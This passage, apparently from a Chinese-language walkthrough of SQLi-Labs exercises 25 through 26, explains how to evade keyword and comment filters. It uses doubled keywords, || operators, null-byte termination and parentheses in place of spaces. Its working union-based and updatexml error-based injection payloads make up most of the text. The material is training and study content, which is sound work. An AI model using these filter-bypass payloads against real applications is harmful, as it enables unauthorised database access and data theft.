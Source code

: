 所以如果要`1' and 1=1;--+`，可以使用双写绕过`1' aandnd 1=1;--+`

paylod:

`111' union select 1,group_concat(schema_name),3 from infoorrmation_schema.schemata;%23`

这里注意 `information_schema`中的or也会被替换,所以双写 `infoorrmation_schema`

剩下 略

**此外** 还可以用`||`代替`or`来报错注入

注意 如果使用`&&`要用`%26%26`

`1' || updatexml(0,concat(0x0a,database()),0)%23`

### 25a-Trick with OR & AND Blind

和上一题一样，只不过变成整型了

`?id=1 oorr 1=1%23`

`111 union select 1,group_concat(schema_name),3 from infoorrmation_schema.schemata;%23`

略

### 26 Trick with comments

这次加上注释和空格也给过滤了

```php
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);	//Strip out slashes
	return $id;
}
```

可以用00截断来代替注释`1'oorr'1'='1';%00`

值得注意的是，虽然空格被过滤了，但是我们还是有几种方法绕过的。

上面这种加单引号可以，还可以用括号包裹`1'oorr(1=1);%00`

接下来来一段报错注入

`1'oorr(updatexml(0,concat(0x7e,database()),0));%00`

结尾还可以换一种方式

`1'oorr(updatexml(0,concat(0x7e,database()),0))oorr'1'='1`

`1'oorr(updatexml(0,concat(0x7e,(select(group_concat(schema_name))from(infoorrmation_schema.schemata))),0))oorr'1'='1`

